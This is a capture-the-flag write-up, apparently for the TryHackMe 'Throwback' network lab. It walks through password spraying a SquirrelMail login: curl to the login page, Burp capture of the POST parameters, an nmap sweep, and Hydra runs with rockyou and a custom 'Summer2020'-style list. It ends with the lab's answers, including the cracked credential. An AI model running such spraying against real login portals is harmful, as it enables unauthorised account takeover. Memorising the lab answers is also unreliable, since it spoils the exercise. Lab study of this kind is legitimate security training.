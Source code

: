 #  Wait, just you mean just one this time?

With my smb analysis leading to the conclusion that the HumpreyW account is a backdoor we return to guided path once again. According to the instruction from the team are going to do some crediental spraying. Firstly a nice awk on the usernames from the contacts:

![awk](wait-usernames-awk.png)

Now just `> usersnames.txt` and remove noreply, HumphreyW, Mr Peanutbutter and Bojackhorseman to preventing wasting a much time on known and "real-people" accounts. One quick curl command later to get login parametres:
```bash
curl http://10.200.102.232/src/login.php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en_US" lang="en_US">
    <head>
<title>Throwback Hacks - Login</title>
    <script type="text/javascript" language="JavaScript">
<!--
if (self != top) { try { if (document.domain != top.document.domain) { throw "Clickjacking security violation! Please log out immediately!"; /* this code should never execute - exception should already have been thrown since it's a security violation in this case to even try to access top.document.domain (but it's left here just to be extra safe) */ } } catch (e) { self.location = "/src/signout.php"; top.location = "/src/signout.php" } }
// -->
</script>
<meta name="robots" content="noindex,nofollow" />                                                              
<link rel="shortcut icon" href="/favicon.ico" /><link media="screen" rel="stylesheet" type="text/css" href="../templates/default/css/options.css"  />                                                                         
<link media="screen" rel="stylesheet" type="text/css" href="../templates/default/css/default.css"  />          
<link media="screen" rel="stylesheet" type="text/css" href="/src/style.php?"  />                               
<link media="print" title="printerfriendly" rel="stylesheet" type="text/css" href="/css/print.css"  />         
<script type="text/javascript">                                                                                
<!--                                                                                                           
  var alreadyFocused = false;
  function squirrelmail_loginpage_onload() {
    if (alreadyFocused) return;
    var textElements = 0; var i = 0;
    for (i = 0; i < document.login_form.elements.length; i++) {
      if (document.login_form.elements[i].type == "text" || document.login_form.elements[i].type == "password") {
        textElements++;
        if (textElements == 1) {
          document.login_form.elements[i].focus();
          break;
        }
      }
    }
  }
// -->
</script>
<!--[if IE 6]>
<style type="text/css">
/* avoid stupid IE6 bug with frames and scrollbars */
body {
    width: expression(document.documentElement.clientWidth - 30);
}
</style>
<![endif]-->
</head>


<body onload="squirrelmail_loginpage_onload()">
<form name="login_form" id="login_form" action="redirect.php" method="post" onsubmit="document.login_form.js_autodetect_results.value=1">
<div id="sqm_login">
<table cellspacing="0">
 <tr>
  <td class="sqm_loginTop" colspan="2">
   <img src="/pics/throwback.png" class="sqm_loginImage" alt="Throwback Hacks Logo" width="308" height="111" /><br /><br />
Guests who require access to an email can use the following: <br />
tbhguest:WelcomeTBH1!<br /><br />  </td>
 </tr>
 <tr>
  <td class="sqm_loginOrgName" colspan="2">
   Throwback Hacks Login  </td>
 </tr>
 <tr>
  <td class="sqm_loginFieldName"><label for="login_username">
   Name:  </label></td>
  <td class="sqm_loginFieldInput">
   <input type="text" name="login_username" value="" id="login_username" onfocus="alreadyFocused=true;"  />
  </td>
 </tr>
 <tr>
  <td class="sqm_loginFieldName"><label for="secretkey">
   Password:  </label></td>
  <td class="sqm_loginFieldInput">
   <input type="password" name="secretkey" value="" id="secretkey" onfocus="alreadyFocused=true;"  />
   <input type="hidden" name="js_autodetect_results" value="0" class="sqmhiddenfield" id="js_autodetect_results" /><input type="hidden" name="just_logged_in" value="1" class="sqmhiddenfield" id="just_logged_in" />  </td>
 </tr>
  <tr>
  <td class="sqm_loginSubmit" colspan="2">
   <input type="submit" value="Login" />
  </td>
 </tr>
</table>
</div>
</form>
<!-- end of generated html -->
</body>
</html>
```

![burplogin](wait-burp-login.png)

From this screenshot:

```bash
login_username=^USER^&secretkey=^PASS&js_autodetect_results=1&just_logged_in=1
```

On the list of tools to try out brutespray and  is just a nice `apt-get install brutespray` away. I requires Nmap output so I'll rerun:
`nmap -sV -sC -oA throwback -p- 10.200.0-255.0/24 --min-rate 5000` with -oA for outputing all formats and also a range over the 0-255, third octet, which did not do the first time. It will take longer but that is fine for reconing more indepth in the background while I setup password spraying in medusa and hydra. Don't forget to 	`gzip -d /usr/share/wordlists/rockyou.txt.gz` the rockyou list on the Kali VM.

```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt $MACHINE_IP http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect' 
```

Consider that bruteforcing in this way is not very smart and the task is hinting at making a custom password list based on a set of strings:
```txt
Summer2020
Management2020
Management2018
Password2020
Throwback2020
Password123
```

I decided to use mentalist password permutation, warning getting this to work on some mahcines has  been a nightmare, especially the THM VMs, when a certain CTF requires  a wordlist > GBs!

![mentalist-one](mentalist-wl-one.png)

*Please waitWhatHappen for an explaination, too many mistakes occured and I had rewrite this section, but I am not going to glaze over my failings*

To create a list of users I used `awk` and then piped with `>` into a usernames.txt  

![wait-users](wait-usernames-awk.png)

Post file removed, no reply account to speed up bruteforcing.
```bash
hydra -L usernames.txt -P passwords.txt 10.200.102.232  http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect'
```

![peanut](wait-hydra-peanuts-away.png)

some more:

![almost](wait-hydra-getting-there.png)


## Answers

What is the username parameter in the POST request?  
```{toggle}
login_username
```
What is the password parameter in the POST request?  
```{toggle}
secretkey
```
What username found with hydra starts with an M?  
```{toggle}
MurphyF
```
What is the password found with hydra?
```{toggle}
Summer2020
```